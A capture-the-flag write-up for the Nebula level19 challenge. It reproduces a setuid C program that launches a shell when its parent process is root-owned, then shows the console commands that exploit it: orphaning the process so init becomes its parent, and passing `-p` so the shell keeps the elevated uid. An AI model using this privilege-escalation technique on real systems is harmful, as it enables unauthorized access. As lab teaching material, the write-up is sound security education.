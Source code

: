 ## Challenge
There is a flaw in the below program in how it operates.

## Solution
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
      printf("Unable to check parent process\n");
      exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
      /* If root started us, it is ok to start the shell */

      execve("/bin/sh", argv, envp);
      err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```
Program flow:
* construct path to parent process's directory in `/proc`
* retrieve directory's `stat` structure
* check if owner uid equals to `0` (root)
  * execute `/bin/sh` with given arguments

Ideas for exploitation:
* schedule a `cron` job to run the process (`cron` is a root owned daemon) ❌
  * `cron` executes commands using a user owned shell, thus the parent of our process will not be root `cron`.
* kill the parent process, cause child to move to a new parent - root `init` process ✔
  * race condition, parent should be killed before child executes critical code parts

### Init Parent Process
In Linux, when a parent process dies, all it's children processes are moved to a new parent - the `init` process with PID of `1`. This new parent process belongs to the user `root`.

I found that executing `sh -c 'COMMAND &'` will cause the wanted effect.
```console
level19@nebula:/home/flag19$ sh -c './flag19 -c "echo hello world"&'
level19@nebula:/home/flag19$ hello world
```

But there is a problem with this solution,
```console
level19@nebula:/home/flag19$ sh -c './flag19 -c "id" &'
level19@nebula:/home/flag19$ uid=1020(level19) gid=1020(level19) groups=1020(level19)
```
We are not running as `flag19`...

### Running as `flag19`
As we already learned from this series of challenges, `man` is a good friend.
```console
level19@nebula:~$ man bash
```
> If  the  shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, no startup files are read, shell functions are not inherited from the environment, the SHELLOPTS, BASHOPTS, CDPATH, and GLOBIGNORE variables, if they appear in the environment, are ignored, and the effective user id is set to  the  real user id.  If the -p option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.

We start `bash` with an effective user id of `flag19` (because `setuid` binary) and a real user id of `level19` (the user that executed the program), and this explains why our effective user id resets to the real user id. We shall use the `-p` flag to avoid this behavior.

```console
level19@nebula:~$ sh -c '/home/flag19/flag19 -c "id" &'
level19@nebula:~$ uid=1020(level19) gid=1020(level19) groups=1020(level19)
level19@nebula:~$ sh -c '/home/flag19/flag19 -p -c "id" &'
level19@nebula:~$ uid=1020(level19) gid=1020(level19) euid=980(flag19) groups=980(flag19),1020(level19)
```
```console
level19@nebula:~$ sh -c '/home/flag19/flag19 -p -c "getflag" &'
level19@nebula:~$ You have successfully executed getflag on a target account
```

### Last Words
Wow, it's really over isn't it?

I'd like to finish my writeup with a huge thank-you to the people behind exploit.education, it has been a real joyride.

Next up, Phoenix!
